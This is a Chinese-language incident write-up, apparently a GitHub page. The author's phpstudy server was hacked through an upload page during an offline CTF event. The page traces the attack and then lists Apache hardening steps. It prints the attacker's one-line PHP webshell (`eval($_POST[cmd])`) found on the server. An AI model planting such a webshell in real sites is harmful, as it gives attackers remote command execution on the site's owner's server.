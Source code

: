 #20170728 某线下赛被撸串
* 线下 or 不安全的网络环境不要开服务，不要开端口。 
* 保持网络监控：
离开风险网络后随时留意个人安全动向，手机验证码 + 网站的访问记录历史等。





##情况描述
某线下赛，布置题目期间。

本机服务phpstudy，开放80端口，在内网里被扫到了，phpstudy权限很高，httpd.conf里的配置是Allow from all。WWW 下面有几套 cms 和 自己练习的upload模板。







##溯源
没流量确实没法看操作了，但能看到那哥们对文件操作的结果。

everything *按时间排序 查找所有文件，查看当时文件修改创建情况
<div>align=center><img src="everything.png" width="400"/></div>

###上传点：
缘起upload/upload.php(index.php)，马被上传到了upload文件夹下
a href = folder[Upload]

`当时的上传点:`
<div ><img src="php.png" width="300"/></div>



###溯源后发现：
<div><img src="directory.jpg" width="300"/></div>

a href=./so.php 2017/07/08 15:58
    <?php
    eval($_POST[cmd]);
    ?>  
    
a href=./config.inc.php，看修改日期，是大马。

原先存在相似的文件名称，为：```D:\phpStudy\zhouWWW\phpMyAdmin\setup\frames\config.inc.php```
<br>
<br>
<br>
*有大佬能指点下xdebug输出的 cachegrind 文件怎么分析的不？不胜赐教！文件内容大同小异，如下：*
<div><img src="cache1.jpg" width="300"/></div>
能看到利用php的操作:
<div><img src="cache2.jpg" width="300"/></div>





##师兄建议：

    进程 异常网络连接 系统日志 win防火墙；系统带的工具别当摆设
    用PHPstudy要记得降权
    nat + 虚拟机



<br><br><br><br><br><br><br><br><br><br><br><br><br><br>



##延伸 

###1. httpd安全配置

apache 的配置文件 D:\phpStudy\Apache\conf\httpd.conf（针对phpstudy）

##### 1.1 监听ip修改：

`<Directory />`标签下

Allow from 127.0.0.1

##### 1.2 apache-log：

开启访问请求日志

`<IfModule log_config_module>`标签下
    
CustomLog D:\phpStudy\Apache\apache-access-log common

<!--Apache服务器的访问日志名称在linux下默认：access_log，windows下是access.log文件
-->
##### 1.3 index.html

`<IfModule dir_module>`标签下

DirectoryIndex index.html index.php

##### 1.4 禁列目录

`<Directory />`标签下

Options +Indexes +FollowSymLinks +ExecCGI

去掉Indexes。(Indexes表示若当前目录没有index.html就会显示目录结构)

- 1.5 权限控制调整

apache的执行权限

#####上面的针对个人测试代码环境的安全加固已经差不多了。关于服务器方面，这里有本lamp加固，就不重复造轮子了。

<br>

###2.  .htaccess

[wiki：.htaccess](https://wiki.apache.org/httpd/Htaccess)


#总之：别裸奔。。。

保存上述修改后，一定记得要 restart 一次Apache服务使修改生效。


###2. 内网扫描 
nmap，xxx，xxx

###3. 线下时的蜜罐
拉个docker


---

---
最后，教训深刻，感谢：师傅提醒被撸 以及 师兄的建议！